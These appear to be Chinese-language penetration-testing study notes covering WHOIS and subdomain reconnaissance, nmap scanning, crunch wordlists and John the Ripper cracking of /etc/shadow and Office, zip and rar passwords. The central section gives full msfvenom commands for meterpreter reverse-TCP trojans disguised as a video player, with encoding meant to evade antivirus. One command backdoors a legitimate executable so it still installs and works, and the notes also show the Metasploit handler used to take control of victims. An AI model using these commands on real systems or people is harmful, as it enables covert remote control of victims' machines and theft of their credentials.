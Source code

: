 > ## 查询域名相关信息
>
> 查询ip与域名对应：
>
> ping + 域名
>
> nslookup + 域名
>
> Dig + 域名 、dig+@114.114.114.114 +域名
>
> dig+x+ip ->返回域名
>
> ---
>
> 
>
> ```c
> ─# whois xuegod.cn    查询域名相关信息
> Domain Name: xuegod.cn
> ROID: 20140908s10001s72166376-cn
> Domain Status: ok
> Registrant: 北京跳动未来科技有限公司
> Registrant Contact Email: jianmingbasic@163.com
> Sponsoring Registrar: 阿里云计算有限公司（万网）
> Name Server: dns7.hichina.com
> Name Server: dns8.hichina.com
> Registration Time: 2014-09-08 10:52:31
> Expiration Time: 2022-09-08 10:52:31
> DNSSEC: unsigned
> ```
>
> ## 
>
> ```c
> beianbeian.com  搜企业域名搜索
> 天眼查						备案信息查询
> ```
>
> ----
>
> #### 子域名
>
> 大型网站就有子域名，小型网站一般就一个主域名。
>
> 有的主域名无法直接攻破，可以先攻破子域名。
>
> 子域名挖掘机：maltego工具  得翻墙注册，不然用不了
>
> 子域名查询网站--自己上网搜
>
> ---
>
> # 生成西瓜影音的后门程序
>
> ```c
> ┌──(root💀kali)-[~]
> └─# msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.110.130  LPORT=4444 -b "\0x00" -e x86/shikate_ga_nai -i 10 -f exe -o /var/www/html/西瓜影音1.exe
> 
> [-] Skipping invalid encoder x86/shikate_ga_nai
> [!] Couldn't find encoder to use
> No encoder specified, outputting raw payload
> Payload size: 354 bytes
> Final size of exe file: 73802 bytes
> Saved as: /var/www/html/西瓜影音1.exe
>   
> msfvenom：工具
> -a x86：指定架构  32位
> --platform wondows：平台
> -p windows/meterpreter/reverse_tcp：比shell强大很多,payload
> 目标主机执行木马程序后会与lhost主机的lport端口相连接
> -b '\x00':去掉16进制的坏字符
> -e x86/shikate_ga_nai：编码器 免杀，逃避防护软件
> -i 10：编码次数
> -f exe：制定文件格式
> -o /var/www/html/西瓜影音1.exe：输出位置与命名
> ```
>
> -----
>
> 生成的exe木马程序在目标机运行后
>
> 我们在kali主机可以监控目标机的所有操作，可以看到目标机的界面。
>
> ```c
> 输入 msfconsole：进入msf命令行模式
> msfdb run:运行mfs
> use expolit/multi/handler  这句执行完
> set payload windows/meterpreter/reverse_tcp  设置payload
> show option:查看主机的ip+port
> set LHOST 当前kali的ip
> set lport 4444
> exploit：进入攻击模式
> run:开始监听---目标机程序一旦运行这里就建立链接了。
> meterpreter>：最终到达这个界面就可以操控目标机器了。
> ```
>
> ----
>
> ## 如何给一个正常的软件植入后门--这才是厉害的木马
>
> 植入后门：给正常的qq.exe植入后门后还叫qq.exe并且可以正常安装，功能也可以正常使用。但是加入后门之后，这个qq所在的目标机就会被主机监控。
>
> ```c
> ┌──(root💀kali)-[~]
> └─# msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.110.130  LPORT=4444 -b "\0x00" -e x86/shikate_ga_nai -i 10 -x QvodTerminal.exe -f exe -o /var/www/html/QvodTerminal.exe
>   
> 给快播的子程序植入木马。多了个-x xxx.exe。当前路径必须是xxx.exe所在的路径，这样就可以直接生成新的带木马的exe。
> 
> 
> 
> ```

## 如何给linux生成木马

```c
msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.110.130  LPORT=4444 -b "\0x00" -i 10 -f elf -o /var/www/html/xuegod
linux下面生成的文件格式elf格式。
```

备注：x86表示32bit操作系统，x64表示64位，x86_64也是64位。

```c
在主机执行：
set payload linux/x64/meterpreter/reveser_tcp 回车
```

# --------------------------再学习

破解linux密码：

```py
unshadow /etc/passwd /etc/shadow > appomy.txt  将两个文件合并
root@kali:~# john appomy.txt 
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
0000             (root)
密码              用户名

unshadow的合并不是cat那种合并
```

--破解word excel zip包密码流程：

```sh
//将文档哈希转化成 哈希值 存到txt中
root@kali:~# python /usr/share/john/office2john.py sec.docx > hash.txt 
//直接执行命令解析txt
root@kali:~# john hash.txt 
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
123              (sec.docx)
密码              文档
```

```
cd /usr/share/john
rar2john filename.rar > hash.txt  破解rar密码
john hash.txt


zip2john sec.zip > zip.txt   破解zip密码
```

### nmap

```sh
root@kali:~# nmap 192.168.60.1/24  扫描网关/掩码24的当前网关中的ip与开启的服务
Nmap scan report for 192.168.60.1 (192.168.60.1)
Host is up (0.00048s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE
6000/tcp open  X11
MAC Address: 00:50:56:C0:00:08 (VMware)

Nmap scan report for 192.168.60.2 (192.168.60.2)
Host is up (0.00033s latency).
Not shown: 999 closed ports
PORT   STATE    SERVICE
53/tcp filtered domain
MAC Address: 00:50:56:E1:FA:57 (VMware)

Nmap scan report for 192.168.60.128 (192.168.60.128)
Host is up (0.0014s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 00:0C:29:4B:67:CC (VMware)

Nmap scan report for 192.168.60.254 (192.168.60.254)
Host is up (0.00037s latency).
All 1000 scanned ports on 192.168.60.254 (192.168.60.254) are filtered
MAC Address: 00:50:56:FA:9A:44 (VMware)

Nmap scan report for 192.168.60.129 (192.168.60.129)
Host is up (0.0000050s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

共有5个主机
Nmap done: 256 IP addresses (5 hosts up) scanned in 8.00 seconds 
```

### crunch

```sh
crunch 11 11 -t 1381234%%%% > mob.txt   随机生成10000条电话号码数字  11表示长度

crunch 6 6 -f /usr/share/crunch/charset.lst hex-lower -o 3.txt  根据给定模板生成 00001-fffff

crunch 3 3 -p abc 123 iop > 6.txt   组合3个字符串  有几种组合方法

```

